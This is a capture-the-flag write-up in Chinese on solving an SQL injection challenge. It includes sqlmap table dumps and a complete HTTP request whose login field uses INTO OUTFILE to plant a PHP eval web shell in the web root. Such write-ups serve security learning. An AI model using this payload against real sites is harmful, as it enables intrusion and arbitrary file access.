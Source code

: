 # babe-sqli-1 WP

## 题目介绍

本题主要考察的是，过时且少见的，通过SQL命令写入任意文件的攻击方法。

## 解题思路

首先，在访问主页，是一个登录页面，通过查看HTML可以看到以下内容:

```html
  <!-- Why not see see database? -->
  <!-- and <a href="phpinfo.php">phpinfo?</a> -->
```

按上述提示，访问`phpinfo.php`，确定网页根目录为Debian/Ubuntu风格的`/var/www/html`

接着，对主页的登录进行测试(可以用个单引号测试一下，也可以sqlmap扫扫，没啥过滤)，发现存在注入点

为了省事，可以用sqlmap导出数据库，发现在数据库`mylogin`下的数据:


```console
Database: mylogin
Table: users
[5 entries]
+----+-----------------+-----------------------+
| id | email           | password              |
+----+-----------------+-----------------------+
| 1  | test@test.com   | 12345                 |
| 2  | admin@admin.com | admin123              |
| 3  | Seems that      | nothing here!         |
| 4  | no no no!       | See see other tables? |
| 5  | Actually..      | No more here...       |
+----+-----------------+-----------------------+
```


```console
Database: mylogin
Table: flag
[3 entries]
+----+--------------------------+
| id | f1ag                     |
+----+--------------------------+
| 1  | {I'm-just-a-fake-flag:)} |
| 2  | secure-file-priv=""      |
| 3  | flag is somewhere        |
+----+--------------------------+
```


指向性是很明显的，我们应当利用`secure-file-priv=""`达到任意文件写入的目的。如果有兴趣测试一下权限的话，也能测试出来当前用户是`root` :-)

接下来就是，构造个payload，向/var/www/html下写入个shell，就可以任意浏览文件了。

```
POST /login.php HTTP/1.1
Host: 11.22.33.44
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 111
Origin: http://11.22.33.44
DNT: 1
Connection: close
Referer: http://11.22.33.44/
Upgrade-Insecure-Requests: 1

email=1' UNION SELECT '<?php eval($_POST["test"]);' INTO OUTFILE '/var/www/html/test.php' --+&password=123
```

之后用个shell连接工具，连接上去，可以看到flag位于`/flag/im_your_f1ag`文件中。



